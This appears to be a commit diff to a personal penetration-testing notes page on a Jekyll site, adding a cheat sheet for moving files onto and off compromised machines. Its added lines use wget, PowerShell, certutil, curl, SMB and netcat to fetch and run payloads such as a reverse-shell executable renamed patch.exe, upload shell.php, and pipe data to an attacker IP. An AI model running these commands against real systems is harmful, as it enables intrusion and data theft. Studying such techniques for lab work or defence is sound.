

Before and after one commit to sofblocks/sofblocks.github.io, a Jekyll site: the page built from _notes/2020-05-10-misc.md, in a window 1280 px wide and 1400 px high, scrolled down 436 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-05-10-misc.md

````diff
--- a/_notes/2020-05-10-misc.md
+++ b/_notes/2020-05-10-misc.md
@@ -15,18 +15,74 @@
 ## Transfering Files:
 HTTP:
 - Apache:
-Copying the file to /var/www/html directory and starting apache services.
+Copying the file to `/var/www/html` directory and starting apache services.
 -  Python
 ```python
   python -m SimpleHTTPServer 80
   python3 -m http.server 80
 ```
 
-SHELL:
-- Using Powershell:
+Downloading the files:
+*  via browser in a Gui platform.
+*  via shell access.
+   -  wget command.
+   ```python
+    wget http://10.10.10.100:8007/execute.py; chmod +x excute.py; ./excute.py
+   ```
+   - Using Powershell:
+   ```python
+   powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
+   powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.x.x.x:8000/reverse_shell.exe','C:\Windows\Temp\patch.exe')
+   certutil.exe -urlcache -split -f "https://host/40564.txt" attack.txt
+   certutil.exe -decode attack.txt attack.exe
+   ```
+   -  curl command.
+   ```python
+     curl -O http://10.10.14.30:9005/file
+     Uploading:
+     curl --upload-file shell.php --url http://$ip/shell.php --http1.0
+   ```
+   -  Python.
+   ```python
+      python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
+   ```
+
+Ftp:
+-
+   ```python
+      Install the python ftp library - pyftpdlib
+      python -m pyftpdlib -p 21
+   ```
+
+Smb:
+-
+   ```python
+      python smbserver.py SHARENAME /root/shells
+
+      Copying files:[Target Machine]
+       dir \\192.168.0.201\SHARENAME
+       copy \\192.168.0.201\SHARENAME\40056.exe
+   ```
+
+Protip:
+-
 ```python
-powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
+   On local system:
+   cat filetoupload | base64 -w 0; echo
+   #double click on output to copy
+   On Target System:
+   echo <copiedContent> | base64 -d > filetoupload
 ```
+
+* Netcut:
+
+   ```python
+      on attacker run:
+      nc -lvp 443> transfer.txt
+      on target run:
+      cat transfer.txt | nc $attackerip 443
+   ```
+
 ## Spawning a Shell:
 Python:
 ```python
````
